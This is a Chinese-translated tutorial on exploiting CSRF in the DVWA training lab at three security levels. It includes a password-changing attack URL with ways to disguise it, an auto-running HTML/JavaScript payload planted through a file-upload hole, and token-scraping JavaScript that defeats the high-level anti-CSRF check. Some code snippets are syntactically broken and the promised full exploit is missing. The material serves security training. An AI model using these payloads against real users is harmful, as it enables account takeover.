




# 如何利用 DVWA 中的 CSRF—stack zero

> 原文：<https://infosecwriteups.com/how-to-exploit-csrf-in-dvwa-stackzero-bf1b6b557d85?source=collection_archive---------0----------------------->


> 本文最初发表于[https://www.stackzero.net/csrf-dvwa/](https://www.stackzero.net/csrf-dvwa/)

我们已经在介绍性文章中看到了对 CSRF 的详细描述，所以如果你没有，我建议你读一读。
然而，在探讨利用 DVWA 攻击 CSRF 的实际例子之前，我想用几句话总结一下这次攻击。

**CSRF 代表跨站点请求伪造，是一种当攻击者能够以某种方式欺骗您的 web 浏览器在您当前已通过身份验证的可信网站上执行不必要的操作时发生的攻击。**

像往常一样，在开始之前，让我们看看先决条件。

# 步骤#0:先决条件:

为 CSRF 建立实验室非常容易，尤其是通过使用 TryHackMe 的 DVWA 环境！

我还假设您正在 Kali 虚拟机上工作(我在本文的[中解释了设置)。所以本教程将以此为基础，即使其他发行版有一些小的变化。](https://github.com/digininja/DVWA)

所以，一旦我们有了:

*   有效的 DVWA 应用程序
*   攻击机器

我们可以运行 VPN 并登录。

通常，默认凭据是:

*   **用户名**:管理员
*   **密码**:密码



默认难度为“不可能”，所以下一步将进入设置，将其设置为“低”。



最后，点击 CSRF 菜单项，我们准备开始！

# 步骤#1:在低安全级别的 DVWA 上的 CSRF:

正如水平建议，这是极其容易的，但认为这是一个热身。
此外，我认为如果我们遗漏了什么，这是理解潜在概念的最佳层面。

打开页面，我们会看到一个可以更改密码的表单。



首先应该想到的是尝试更改密码并观察结果。

在这样做之后，我们仍然在同一个页面上，但是看着 URL 栏，有一个有趣的值。
例如，如果新密码是:“stackzero ”,结果将是这样:

`[http://10.10.93.202/vulnerabilities/csrf/?password_new=stackzero&password_conf=stackzero&Change=Change#](http://10.10.93.202/vulnerabilities/csrf/?password_new=stackzero&password_conf=stackzero&Change=Change#)`

很明显，表单接受一个 [GET HTTP](https://en.wikipedia.org/wiki/Hypertext_Transfer_Protocol#Request_methods) 请求，并发送三个名为:

*   密码 _ 新
*   密码 _ 会议
*   变化

因此，试着想象攻击者会向您发送一个恶意地址，如:

`[http://10.10.93.202/vulnerabilities/csrf/?password_new=stackzero&password_conf=stackzero&Change=Change#](http://10.10.93.202/vulnerabilities/csrf/?password_new=stackzero&password_conf=stackzero&Change=Change#)`

如果他想办法让你在仍然通过认证的情况下点击，你的密码就会自动变成 **stackzero** 。

如果您不相信我，请尝试复制粘贴该地址(通过将 IP 替换为与您的 DVWA 实例相关的 IP)，然后注销 DVWA 并尝试再次登录。
你会看到你的密码不再是“密码”，现在是“ **stackzero** ”。

该地址可能具有明显的行为，因此黑客可能试图以某些方式隐藏其意图，例如:

*   他可以使用像 [CyberChef](https://gchq.github.io/CyberChef/) 这样的工具来混淆 URL，例如使用 URL 编码，这样受害者就会看到这样的 URL:
    `http%3A%2F%2F10%2E10%2E93%2E202%2Fvulnerabilities%2Fcsrf%2F%3Fpassword%5Fnew%3Dhaker%5Fpassword%26password%5Fconf%3Dhacker%5Fpassword%26Change%3DChange%23`
*   他可以构建一个包含恶意 JS 代码的页面，在他的主机上发送请求。
*   他可以使用像 [Bity](https://bitly.com/) 这样的网址缩写。

这完全取决于攻击者的想象。

无论如何，我们已经通过了第一关，并创建了我们需要的有效载荷，我们可以进入下一关了！

[](https://medium.com/codex/cyber-kill-chain-how-hackers-target-and-take-down-organizations-stackzero-6b6bcd8a0eb2) [## 网络杀戮链:黑客如何瞄准并搞垮组织

### 什么是网络杀伤链，简要介绍黑客如何计划他们的攻击。我会试着走过去…

medium.com](https://medium.com/codex/cyber-kill-chain-how-hackers-target-and-take-down-organizations-stackzero-6b6bcd8a0eb2) 

# 步骤 2:中等安全级别的 DVWA 上的 CSRF:

我们准备增加一点难度，所以进入安全设置，设置等级为中等。

通过尝试打开我们刚刚在低级别创建的恶意链接，它不起作用，密码保持不变。

**为什么？**
开发者增加了一个额外的安全层，在这种情况下，应用程序检查 Referer(如果你知道它是什么，这里是[维基百科页面](https://en.wikipedia.org/wiki/HTTP_referer))。
关于 Referer 字段，我们需要知道的是，它是一个可选的头字段，指定 HTTP 请求来自哪个字段。在这种情况下，应用程序检查请求是否来自同一个域。

总的来说，这是一个很好的缓解措施，但是**这不足以阻止我们！**
拦截请求并使用 [Burp Suite](https://portswigger.net/burp) 更改 Referer 在真实情况下是不可能的，因为这应该在受害机器上完成。

我们的第一个想法是创建一个包含脚本的 HTML，通过使用 [XMLHttpRequest](https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest) 并将 Referer 设置为目标 URL，向易受攻击的服务器发送请求，如下所示:

```
const HttpRequest = new XMLHttpRequest();
const url=const url = 'http://10.10.131.218/vulnerabilities/csrf/?password_new=stackzero&password_conf=stackzero&Change=Change#'
;
HttpRequest.open("GET", url);
HttpRequest.send();
```

这似乎是一个好主意，但它不能做到，因为大多数浏览器不允许改变这个标题。

此时我们想要的是直接从目标服务器发送请求，为此我们有一个非常简单的选项。
正如我在[的介绍文章中告诉你的，这个地址](https://www.stackzero.net/csrf-introduction/)我们可以链接一个 XSS 和一个 CSRF 漏洞，所以我们可以将这个有效载荷打包在一个反射的 XSS 中。

然而，在本演练中，我想向您展示另一种更简单的方法，可以让我们只关注 CSRF。
我们将利用一个文件上传漏洞将我们的有效载荷发送到服务器，然后我们可以简单地发送恶意链接。

所以第一步是再次将 DVWA 的安全性设置为低(这不是一个关于文件上传的教程，所以我们不想管理它的安全检查)。

之后，我们可以创建一个 HTML 文件，我将把它命名为" *csrf_js.html* "，它将包含有效负载。

这是文件内容:

```
<html>
    <head>

    </head>
    <body onload="change_password()">
        <script>
            function change_password(){
            const request = new XMLHttpRequest();
            const url = 'http://10.10.131.218/vulnerabilities/csrf/?password_new=stackzero&password_conf=stackzero&Change=Change#'

            request.open("GET", url);

            request.send();

            </script>
    </body>
</html>
```

如您所见，这是一个非常基本的 Javascript 请求，在 body load 事件上运行。

**“显然 URL 取决于您的目标机器”**

保存该文件并将安全性设置为低后，进入文件上传部分:



你可以上传然后砰！
现在，您可以将恶意链接发送给受害者，其格式如下:

`<VULNERABLE_SERVER_IP>/hackable/uploads/<HTML_PAYLOAD>`

所以对我来说，就是:

`[http://10.10.131.218/hackable/uploads/csrf_js.html](http://10.10.131.218/hackable/uploads/csrf_js.html)`

利用完成了！现在再次设置 DVWA 安全为中，并尝试去链接。
注销并再次登录你可以看到现在你的密码是*“stack zero”*或者你放在有效载荷里的任何东西。
作为一个练习，我建议你利用 XSS 做同样的事情。

[](/what-is-command-injection-and-how-to-exploit-it-stackzero-ac7643bc492) [## 什么是命令注入以及如何利用它— StackZero

### 描述什么是命令注入漏洞，并通过一个简单的例子向您展示此类漏洞的潜在风险…

infosecwriteups.com](/what-is-command-injection-and-how-to-exploit-it-stackzero-ac7643bc492) 

# 第三步:CSRF 在高安全级别的 DVWA 上:

最后，我们到了最后一层，所以到了设置，并设置为高安全！

如果你点击 CSRF 按钮，显然什么都没有改变，但尝试检查表单！
这一次有些不同:

```
 <form action="#" method="GET">
   New password:<br />
   <input type="password" AUTOCOMPLETE="off" name="password_new"><br />
   Confirm new password:<br />
   <input type="password" AUTOCOMPLETE="off" name="password_conf"><br />
   <br />
   <input type="submit" value="Change" name="Change">
   <input type='hidden' name='user_token' value='9bfa81172750a77bf8005690ed7a5593' />
  </form>
```

特别是，有一个隐藏的输入值在每次页面刷新时都会改变。
它叫做“用户令牌”，我们已经在这里看到过(CSRF 令牌)。

我们将把我们的利用分为两步:

*   第一次调用通过使用正则表达式获得“user_token”值。
*   第二个调用运行真正的漏洞。

我们放置漏洞的方式和中等难度等级是一样的。
所以我不会在这上面花太多的话。

首先，我们的 Javascript 代码必须向目标页面发送一个普通的请求。

```
const request = new XMLHttpRequest();
const url = "http://10.10.174.199/vulnerabilities/csrf/"

request.open("GET", url);
```

默认情况下，响应是一个字符串，所以在名为“`onreadystatechanged`”的方法中，我们可以提取 user_token。

通过观察它由 32 个十六进制字符组成，并且在页面上没有歧义，我们可以运行得更快。

这可以是一个工作简单的正则表达式:

之后，让我们编写通过正则表达式获取 user_token 并修改密码的函数。

```
request.onreadystatechange = () => {
  if (request.readyState === request.DONE && request.status === 200) {

    var response = request.responseText;

    var user_token = /[a-f0-9]{32}/g.exec(response)[0]
    var payload = "http://10.10.174.199/vulnerabilities/csrf/?password_new=stackzero&password_conf=stackzero&Change=Change&user_token="+user_token;
    var second_request = new XMLHttpRequest();
    second_request.open("GET", payload);
    second_request.send()

    }
};
```

简而言之，这段代码:

*   将第一个请求的响应保存在变量中
*   使用正则表达式查找 user_token(结果总是一个列表，即使它只有一个元素)
*   构建恶意 URL
*   发送第二个请求

最后，为了让 CSRF 漏洞发挥作用:

*   将安全性设置为低(我们将在另一篇文章中看到如何绕过文件上传的措施)。
*   进入文件上传部分并上传你的漏洞，就像你在中级安全级别所做的那样。
*   将安全性设置为高
*   假设您将包含漏洞的 HTML 文件的链接发送给目标。
*   尝试打开你要发送给目标的链接
*   注销，然后尝试登录，看看是否有效。

在这一点上，我希望它很清楚如何结合另一个漏洞执行真实世界的 CSRF(即使你在 DVWA 上)攻击。

为了清楚起见，我想向您展示完整的漏洞利用代码:

[](/how-to-exploit-a-stored-xss-vulnerability-on-dvwa-stackzero-1de6cc9545b9) [## 如何利用 DVWA 上存储的 XSS 漏洞— StackZero

### 这是一个利用 DVWA 上存储的 XSS 的演练，附带的效果是让您更深入地理解…

infosecwriteups.com](/how-to-exploit-a-stored-xss-vulnerability-on-dvwa-stackzero-1de6cc9545b9) [](/how-to-exploit-dom-xss-on-dvwa-stackzero-c83a682ed7b7) [## 如何在 DVWA-stack zero 上开发多姆 XSS

### 在这篇文章中，我们将学习如何在 DVWA 上通过多姆 XSS 的所有级别，这样我们可以更好地理解…

infosecwriteups.com](/how-to-exploit-dom-xss-on-dvwa-stackzero-c83a682ed7b7) [](/reflected-xss-dvwa-an-exploit-with-real-world-consequences-stackzero-171cfb2d87d2) [## 反映 XSS DVWA-一个利用现实世界的后果-堆栈零

### 一步一步的演练在 DVWA 中反射 XSS(跨站点脚本)，尝试利用它与所有级别的…

infosecwriteups.com](/reflected-xss-dvwa-an-exploit-with-real-world-consequences-stackzero-171cfb2d87d2) 

# 结论

总之，您已经看到了如何组合不同的漏洞来达到目标，以及相似的漏洞是如何危险的。您也看到了在某些情况下缓解措施可能是不够的，所以如果您是开发人员，请注意。

## 什么是有效的解决方案？

在这种情况下，使应用程序更加安全的两个解决方案是

*   要在继续之前询问旧密码
*   询问验证码。

我借此机会邀请您更好地了解您使用的应用程序，并注意它们使用的解决方案。

同时，我希望你喜欢这篇关于如何在 DVWA 机器中利用 CSRF 的文章。如果你喜欢我的作品，我邀请你关注[这个博客](http://www.stackzero.net)和我所有的社交，这会对我有很大帮助。

谢谢，下一篇文章再见。

*如果你想订阅 Medium，可以考虑使用我的推荐链接，这对你来说不是额外的费用，但对我来说却是一个很大的帮助。*

[](https://medium.com/@stackzero/membership) [## 用我的推荐链接加入媒体- StackZero

### 我们的最新报道(以及数以千计的其他报道)一经发布，您就可以立即获得。成为会员后，您将获得所有权限…

medium.com](https://medium.com/@stackzero/membership) 

*原载于 2022 年 11 月 23 日*[](https://www.stackzero.net/csrf-dvwa/)**。**

## *来自 Infosec 的报道:Infosec 每天都有很多内容，很难跟上。[加入我们的每周简讯](https://weekly.infosecwriteups.com/)以 5 篇文章、4 个线程、3 个视频、2 个 GitHub Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！*